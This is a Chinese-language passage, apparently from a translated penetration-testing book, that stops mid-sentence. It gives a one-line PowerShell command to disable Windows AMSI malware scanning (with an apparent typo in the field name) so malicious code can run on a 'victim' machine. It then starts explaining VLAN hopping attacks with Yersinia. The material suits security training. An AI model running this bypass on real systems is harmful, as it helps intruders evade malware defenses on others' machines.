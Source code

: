 # 禁用 Windows 防恶意软件扫描接口

Microsoft 在最近的 Windows 版本中包含了其 AMSI，以防止在本地系统上执行任何恶意代码。如果您正在破坏 Windows 操作系统，执行 PowerShell 脚本可能非常有帮助，但 AMSI 将阻止任何恶意行为。要禁用 AMSI，请执行以下 PowerShell 脚本：

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsilnitFailed','NonPublic,Static').SetValue($null,$true)"
```

以下屏幕截图显示了在 Windows 10 操作系统上成功执行脚本：

！[](img/8a51a46a-4c8b-4c4b-bf92-9fa263c44631.png)

此时，您可以在受害者的 Windows 机器上运行几乎任何恶意代码。

本节假定您已经破坏了企业网络上的 Windows 操作系统。在下一节中，我们将简要讨论 IT 行业中许多网络管理员忽视的常见漏洞：VLAN 跳跃。

# 启动 VLAN 跳跃攻击

组织通常实施**虚拟局域网**（**VLANs**）来分割和改善其网络基础设施的性能，同时提高安全性。在配置 VLAN 时，我们关注的是两个主要端口：访问端口和干线端口。

访问端口是配置为将终端设备连接到交换机的端口。这些端口只允许一个数据 VLAN 和一个额外的语音 VLAN。在配置访问端口时，VLAN ID 通常被静态配置为交换机上的访问端口。

要使多个 VLAN 在网络上通信，需要在交换机之间配置干线端口。干线端口允许多个 VLAN 同时传输流量。干线端口在交换机之间配置，并在交换机和路由器之间配置，以实现 VLAN 间路由，允许一个 VLAN 与另一个 VLAN 通信。

许多时候，IT 专业人员没有正确配置网络设备。渗透测试人员可以利用这个漏洞，并尝试执行 VLAN 跳跃攻击。一旦成功，攻击者的机器将能够访问所有可用的 VLAN，并执行 MITM 攻击。以下图表显示了一个成功启用未经授权的干线的攻击者：

![](img/fbe4f6dd-78bb-4cb1-978a-74e14f34abeb.png)

在 Kali Linux 上，**Yersinia**允许攻击者对网络执行各种类型的第二层攻击，以利用安全配置错误和弱点。要打开 yersinia，请执行以下命令：
